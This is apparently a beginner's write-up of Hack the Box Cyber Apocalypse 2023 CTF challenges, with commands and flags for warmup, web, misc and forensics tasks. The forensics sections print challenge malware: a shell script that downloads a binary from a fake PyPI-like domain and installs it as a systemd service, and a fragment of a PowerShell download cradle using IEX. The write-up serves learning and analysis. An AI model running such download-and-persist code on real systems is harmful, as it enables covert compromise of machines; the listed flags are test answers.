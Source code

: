 ```yaml
---
title: Hack the Box Cyber Apocalypse CTF 2023
date: 2023-03-23 
categories: [ctf, writeup, htb, jeopardy]
tags: [forensics, hardware, misc, pwn, web, warmup, python, curl]
---
```


# Hack the Box Cyber Apocalypse 2023 Complete! (≧∇≦)ﾉ

Cyber Apocalypse 2023 was a jeopardy style CTF spanning multiple categories such as: forensics, hardware, pwn, misc, web, machine learning, blockchain and cryptography.

This is my first CTF that I have entered though I continue to complete rooms on TryHackMe, using the HTB Academy and working through the PicoCTF Gym.
I've come to understand during this short experience - there's nothing quite like a live CTF. I hope to continue doing CTFs in future, at least, as much as time allows.

(Will be adding more over time).
- **Posts Added:** trapped source, persistence, plaintext tleasure, alien cradle, extraterrestrial persistence
- **Posts to follow:** getting started, initialise connection, questionnaire, critical flight, debut, and timed transmission


## Warmup

-------------------------

This was a fun little flag to be had after joining the Hack the Box discord. It was hiding in the announcements section as:

``` text
HTB{l3t_th3_tr3asur3_hunt1ng_b3g1n!}
```

## Trapped Source (web)
--------------------

This was a pretty straightforward and these were the steps I took for this challenge:

- Viewed the page source (Ctrl + U or Right-Click + View Page Source)
- Scanned the page for any mention of the HTB flag format HTB{...}
- No flag text present, so I checked for any scripts available
- Found a script named "correctPin" and tried the code "8291"
- Got the flag! 


``` text
HTB{V13w_50urc3_c4n_b3_u53ful!!!}
```


## Persistence (misc)
-------------------

First, I'll say, what a fitting name for this challenge 🤣

At the moment I don't know much about web-based challenges and incorrectly approached this at first. I read the question carefully and soon realised that the page needed to be accessed many, *MANY*  times (around 1000 as per the description).

There may be many ways to approach this, but I used what I knew, which was the handy tool called **cURL**.

At first, I tried to simply use the given url with curl, like so:

``` bash
$ curl ip-address:port/flag
```

And received a garbled string as a result. I knew that it was working, but it wouldn't do to simply repeat this request. So I looked up how to replicate the result continuously.

``` bash
$ while true; do curl ip-address:port/flag; done 
```

Great! This was working as well, but I needed to save the output somewhere:

``` bash
$ while true; do curl --output >(cat >> filename) ip-address:port/flag; done 
```

And after some long time later, a flag appears!
We can view it like so, piping it to grep:

``` bash
$ cat filename | grep "HTB{"
```

Getting the following output:
``` text
HTB{y0u_h4v3_p0w3rfuL_sCr1pt1ng_ab1lit13S!}
```

## Plaintext Tleasure (forensics)
------------------------------------------------------

This challenge had to be downloaded and contained a zip file, which can easily opened with the following command:

``` bash
$ unzip filename.zip
```

The extract file is named "capture.pcap". which I confirm with the *file* command.
Before searching through the file in its entirety, I decide to try basic commands and see if the flag can be found this way and this is the line which worked:

``` bash
$ strings capture.pcap | grep "HTB{"
```

We get the flag:

``` text
HTB{th3s3_4l13ns_st1ll_us3_HTTP}
```

## Alien Cradle (forensics)
----------------------------------------------------------

We are provided with a zipped folder containing a Powershell script. I confirm the contents:

``` shell
$ file cradle.ps1 

# cradle.ps1: ASCII text, with very long lines (618), with no line terminators
```

Knowing that a lot of text exists within this file, I consider the following command:

``` bash
$ strings cradle.ps1

# [top portion redacted for warnings]...'{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

The flag is hiding within the post, separated in such a manner that the usual 'trick' of "HTB{" won't suffice here, so it was a good choice to check the contents with *strings*  first.

There probably is a more efficient way to extract the flag from this text, but for now, I simply copied the relevant ouput and cleaned it up as per the flag ruling:

``` text
HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}
```

## Extraterrestrial Persistence (forensics)

This challenge was provided as a downloadable zip file, which upon extraction reveals a shell script file. I confirm this as usual:

``` bash
$ file persistence.sh

# persistence.sh: ASCII text, with very long lines (396), with CRLF line terminators
```

Although the file provided is not executable, being a shell script, I opted to view the file contents first:

``` bash
$ cat persistence.sh

# n=`whoami`
# h=`hostname`
# path='/usr/local/bin/service'
# if [[ "$n" != "pandora" && "$h" != "linux_HQ" ]]; then exit; fi

# curl https://files.pypi-install.com/packeges/service -o $path

# chmod +x $path

# echo -e "W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA=="|base64 --decode > /usr/lib/systemd/system/service.service
```

Interesting, not only do we learn a bit of shell script commands, we get an idea of the persistence mechanism the aliens have created (lore information for the CTF, but also knowledge in general). 

The Base64 string seems promising, so I focus my attention there instead.
There are many sites to decode base64 online, but knowing how to achieve the same result from terminal is ideal for learning. 

The output is sent to the terminal via echo and then piped into the base64 utility with the -d tack for the decode option:

``` bash
echo "W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA==" | base64 -d
```


We are then presented with the following decoded output, with our hiding in the Description portion:
``` text
[Unit]
Description=HTB{th3s3_4l13nS_4r3_s00000_b4s1c}
After=network.target network-online.target

[Service]
Type=oneshot
RemainAfterExit=yes

ExecStart=/usr/local/bin/service
ExecStop=/usr/local/bin/service

[Install]
WantedBy=multi-user.target
```

Flag:
``` text
HTB{th3s3_4l13nS_4r3_s00000_b4s1c}
```


